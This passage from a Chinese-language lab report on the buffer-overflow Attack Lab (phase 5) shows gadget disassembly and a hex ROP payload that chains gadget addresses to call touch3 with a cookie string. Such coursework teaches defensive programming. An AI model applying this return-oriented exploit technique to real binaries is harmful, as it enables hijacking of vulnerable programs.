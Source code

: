 ```bash
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
# 可用的子序列组合指令，起始地址为0x4019c5
  4019c5:   48 89 c7                movq %rax,%rdi
  4019c8:   90                      nop
  4019c9:   c3                      retq
```

以下是根据所使用的组合指令以及相关信息所编写16进制的攻击代码：
```c
/* 该内容存放在strs5文件中 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 /* the addr of gadget1 */ /* movq %rsp,%rax; retq */
d8 19 40 00 00 00 00 00 /* the addr of gadget2 */ /* addb $0x37,%al; retq */
c5 19 40 00 00 00 00 00 /* the addr of gadget3 */ /* movq %rax,%rdi; nop; retq */
fa 18 40 00 00 00 00 00 /* the addr of touch3 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 35
39 62 39 39 37 66 61 0a /* the string of cookie */
```

以下通过第五关的界面：
![pass5](image/2021-07-14-01-12-09.png)

### 4.总结

本次实验让我们深入地认识了有关缓存区溢出的相关知识。

通过这次实验，我们会在以后的编写代码时更加注意这方面的问题，避免发生这些漏洞，从而写出更加健壮的程序。